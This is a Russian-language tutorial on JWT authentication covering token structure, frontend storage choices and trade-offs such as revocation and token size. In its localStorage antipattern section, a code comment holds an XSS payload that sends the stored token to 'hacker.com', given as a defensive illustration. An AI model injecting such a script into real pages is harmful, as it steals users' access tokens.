

JSON Web Token (JWT) — это открытый стандарт для создания токенов доступа, которые позволяют безопасно передавать информацию между клиентом и сервером в виде JSON-объекта. 

## 1. Зачем это нужно? (Какую боль решаем?)
Исторически авторизация работала через **сессии**. Сервер хранил ID сессии в памяти или базе данных, а клиент отправлял куки с этим ID. 
С развитием микросервисов и высокой нагрузки это стало проблемой: каждый сервис должен был лезть в БД для проверки сессии. JWT решает эту проблему, предлагая **stateless (не сохраняющий состояние)** подход: токен сам по себе содержит все необходимые данные пользователя и криптографическую подпись, подтверждающую его подлинность. Серверу не нужно обращаться к БД, чтобы проверить токен.



## 2. Анатомия JWT
Токен состоит из трех частей, разделенных точкой: `Header.Payload.Signature`

* **Header (Заголовок):** Тип токена и алгоритм подписи (например, HS256).
* **Payload (Полезная нагрузка):** Сами данные (claims) — `userId`, `role`, `exp` (время жизни). **Внимание: данные зашифрованы только в Base64, их может прочитать кто угодно!**
* **Signature (Подпись):** Хэш от Header + Payload + Secret Key. Гарантирует, что данные не изменили.

## 3. Практика: Хранение во фронтенде (Опасно vs Безопасно)

Главный вопрос фронтенда — **где хранить Access Token?**

### Антипаттерн: LocalStorage
```typescript
// ❌ ОПАСНО: Хранение токена в localStorage
localStorage.setItem('token', jwtToken);

// При любом XSS-уязвимости токен будет украден:
// <script>fetch('http://hacker.com?t=' + localStorage.getItem('token'))</script>
```

### Хороший паттерн: HttpOnly Cookie + In-Memory
В идеальном сценарии фронтенд вообще не должен иметь прямого доступа к Access Token. Бэкенд должен устанавливать его в `HttpOnly, Secure, SameSite` Cookie.
Если же вы работаете с внешним API и обязаны передавать заголовок `Authorization: Bearer`, токен следует держать только в замыкании (In-Memory) или стейт-менеджере.

```typescript
// ✅ In-Memory хранение (например, внутри замыкания api-клиента)
let accessToken = null;

export const setToken = (token: string) => { accessToken = token; };
export const getToken = () => accessToken;

// axios interceptor
api.interceptors.request.use(config => {
  const token = getToken();
  if (token) {
    config.headers.Authorization = `Bearer ${token}`;
  }
  return config;
});
```

## 4. Неочевидные нюансы и трейдоффы

* **Невозможность отзыва (Revocation):** Главный минус JWT. Если токен украден, его нельзя просто "удалить" из базы (так как он stateless). Единственный выход — ждать, пока истечет его `exp` (время жизни). *Решение:* Делать Access Token очень коротким (5–15 минут), а для продления использовать Refresh Token (который уже хранится в БД и может быть отозван).
* **Размер (Оверхед):** JWT-токены значительно больше обычных session ID. Если вы добавите в payload слишком много данных (права доступа, аватарку, список друзей), то каждый HTTP-запрос будет тащить за собой пару килобайт лишних заголовков, замедляя работу сети на мобилках.
* **Декодирование на клиенте:** Никогда не используйте JWT для скрытия приватной информации от пользователя. Фронтенд может легко декодировать полезную нагрузку: `JSON.parse(atob(token.split('.')[1]))`.
